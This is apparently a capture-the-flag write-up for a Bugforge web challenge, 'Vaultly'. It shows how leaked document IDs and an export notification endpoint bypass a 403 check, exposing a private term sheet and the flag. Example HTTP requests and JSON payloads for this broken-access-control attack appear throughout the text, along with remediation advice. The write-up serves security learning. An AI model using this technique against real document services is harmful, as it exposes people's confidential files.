

# Vaultly — vaultly-016 — Alternative access to private files.

## Challenge Information

- **Challenge:** Vaultly
- **Platform:** Bugforge
- **Category:** Web Security
- **Hint:** Alternative access to private files

## 1. Initial Reconnaissance

After opening the application, I navigated to the sign-in page.

The application provided the following demo accounts:

| Role   | Email                                        |
| ------ | -------------------------------------------- |
| Admin  | [admin@acme.test](mailto\:admin@acme.test)   |
| Editor | [editor@acme.test](mailto\:editor@acme.test) |
| Viewer | [viewer@acme.test](mailto\:viewer@acme.test) |

All demo accounts used the password `vaultly`.

I logged in using the administrator account and explored the dashboard.

The dashboard contained multiple vaults with nested folders and documents.

## 2. Identifying the Private Folder

From the Dashboard, I navigated to:

`Legal`

Paath:

`/vaults/Legal`

Inside the Legal vault, I discovered four folders. One of them was:

**Project Heron · Private · Olivia Stone**

This indicated that the folder contained restricted documents belonging to Olivia Stone.

## 3. Discovering the Document Manifest

Below the Project Heron, there was a folder named Records Archive. So when opend and while exploring the `Records Archive` folder, I discovered a CSV file:

`legal-vault-export-2026-11-05-manifest.csv`

The manifest contained the following information:

| Document Path                      | Document ID              | Owner        |
| ---------------------------------- | ------------------------ | ------------ |
| Contracts/mutual-nda-template.txt  | d7f3419db8bf337e12de767e | Olivia Stone |
| Contracts/vendor-msa-northwind.txt | 0c8f7fe1782ef36b960a0868 | Adam Reyes   |
| Policies/data-retention-policy.md  | 5f11dd424426930463393b13 | Adam Reyes   |
| Policies/acceptable-use.md         | a08abb8853962a76b6de3ce8 | Olivia Stone |
| Project Heron/Heron term sheet.txt | b0af0eb1bcb43f24276e8331 | Olivia Stone |

The manifest exposed the document ID of a file inside the private Project Heron folder.

**Interesting finding:** The application exposed metadata referencing a private document even though the document itself was restricted.

## 4. Testing Privacy Modification

I inspected the privacy modification functionality.

For an accessible document, the application sent:

```http
POST /api/documents/bee2ae5f98bfe574fa61153a/private
```

Request payload:

```text
private=1&return=%2Fvaults%2F3%3Ffolder%3D9
```

The application returned HTTP `303` and successfully changed the document's privacy setting.

I then replaced the accessible document ID with the private Project Heron document ID:

```http
POST /api/documents/b0af0eb1bcb43f24276e8331/private
```

Request payload:

```text
private=0&return=%2Fvaults%2F3%3Ffolder%3D9
```

The application rejected the operation.

Response:

```text
HTTP/2 303
```

Redirect:

```text
/vaults/3?folder=9&error=Only%20the%20author%20can%20change%20this%20document%E2%80%99s%20privacy.
```

This indicated that the privacy modification endpoint enforced document ownership.

However, it did not establish whether other document operations enforced the same authorization checks.

## 5. Investigating the Export Functionality

I returned to the Records Archive folder and inspected the available document actions:

- Preview
- Download
- Export
- Make Private

I first tested the export functionality using an accessible document.

### 5.1 Exporting an Accessible Document

Request:

```http
POST /api/exports
```

Payload:

```json
{
  "documentId": "bee2ae5f98bfe574fa61153a"
}
```

Response:

```json
{
  "exportId": "exp_fa9c6f052d98a5a92783663e",
  "documentId": "bee2ae5f98bfe574fa61153a",
  "status": "queued"
}
```

The application accepted the export request and processed it asynchronously.

### 5.2 Monitoring Notifications

I observed that the application repeatedly requested:

```http
GET /api/notifications
```

After the export completed, the endpoint returned:

```json
[
  {
    "id": 1,
    "kind": "export.ready",
    "title": "Your export is ready",
    "exportId": "exp_fa9c6f052d98a5a92783663e",
    "documentId": "bee2ae5f98bfe574fa61153a",
    "read": false,
    "downloadUrl": "/api/exports/exp_fa9c6f052d98a5a92783663e/download?expires=..."
  }
]
```

This revealed that the notification system provided download URLs for completed exports.

## 6. Testing the Private Document Export

I then attempted to export the private Project Heron document using its previously discovered document ID.

Request:

```http
POST /api/exports
```

Payload:

```json
{
  "documentId": "b0af0eb1bcb43f24276e8331"
}
```

Response:

```http
HTTP/2 403 Forbidden
```

Response body:

```json
{
  "error": "This document is private and can't be exported."
}
```

Initially, this appeared to indicate that the application correctly prevented unauthorized exports.

However, I continued monitoring the notification endpoint.

### 6.1 Unexpected Export Notification

A subsequent notification response contained an entry for the supposedly rejected private document export:

```json
[
  {
    "id": 151,
    "kind": "export.ready",
    "title": "Your export is ready",
    "exportId": "exp_d43e023a16776b3d631f58ac",
    "documentId": "b0af0eb1bcb43f24276e8331",
    "createdAt": 1795111682,
    "read": false,
    "downloadUrl": "/api/exports/exp_d43e023a16776b3d631f58ac/download?expires=...&sig=..."
  }
]
```

This was the critical discovery.

Despite receiving a `403 Forbidden` response, the notification system exposed a completed export associated with the private document.

The notification included:

- The private document ID.
- The export ID.
- An export-ready status.
- A signed download URL.
- An expiration timestamp.

## 7. Exploiting the Download Mechanism

I clicked the Download button in the notification associated with the private Project Heron document.

The application generated the following request:

```http
GET /api/exports/exp_d43e023a16776b3d631f58ac/download?expires=1795111966&sig=...
```

Response:

```http
HTTP/2 200 OK
```

The server returned the contents of the confidential document.

### 7.1 Retrieved Document

**Filename:** Heron term sheet.txt

**Document title:** PROJECT HERON — CONFIDENTIAL TERM SHEET (DRAFT)

The retrieved document contained:

```text
PROJECT HERON — CONFIDENTIAL TERM SHEET (DRAFT)

Author: Olivia Stone (CEO, Acme Corp)

Classification: Private — author only

Confidential reference code:
bug{LcAPkHHgoVQVrdb2GI8zzICUIZrQYuEi}
```

The document was successfully retrieved despite being marked private.

## 8. Challenge Flag

```text
bug{LcAPkHHgoVQVrdb2GI8zzICUIZrQYuEi}
```

## 9. Attack Chain


## 10. Vulnerability Analysis

**Finding:** Private document disclosure through the asynchronous export and notification mechanism.

The application exhibited inconsistent authorization behavior across its document operations.

The privacy modification endpoint checked document ownership, and the export request returned a `403` response for the private document.

However, a subsequent notification exposed an export-ready entry containing a signed download URL. Accessing that URL returned the confidential document.

This demonstrates a broken access control issue in the export and download workflow.

### Potentially affected components

| Component                | Observation                          |
| ------------------------ | ------------------------------------ |
| Document manifest        | Exposes private document metadata    |
| Privacy endpoint         | Enforces author ownership            |
| Export endpoint          | Returns `403` for private document   |
| Notification endpoint    | Exposes an export-ready notification |
| Export download endpoint | Returns private document contents    |

### Security Impact

An attacker able to exploit this behavior could potentially retrieve confidential documents that should be inaccessible to their account.

Possible consequences include:

- Disclosure of confidential corporate information.
- Exposure of sensitive business agreements.
- Unauthorized access to documents belonging to other users.
- Compromise of private files through asynchronous processing.

## 10. Recommended Remediation

1. **Enforce authorization consistently:** Verify document access permissions before creating export jobs.
2. **Validate background jobs:** Recheck authorization when asynchronous export jobs are processed.
3. **Secure notifications:** Ensure users only receive notifications for exports they are authorized to access.
4. **Protect download endpoints:** Validate the requesting user's permissions before returning generated files.
5. **Secure signed URLs:** Ensure signed export URLs cannot bypass the intended authorization policy.
6. **Limit metadata exposure:** Avoid exposing private document identifiers and sensitive metadata unnecessarily.

## 11. Conclusion

The Vaultly challenge demonstrated how inconsistent authorization checks across multiple application components can expose private documents.

The investigation started with exploring the vault structure and discovering a CSV manifest containing private document identifiers.

Although direct privacy modification and export requests were rejected, monitoring the notification endpoint revealed a completed export for the private Project Heron document.

Following its signed download URL successfully retrieved the confidential term sheet and revealed the challenge flag.

**Final Result: Challenge Solved.**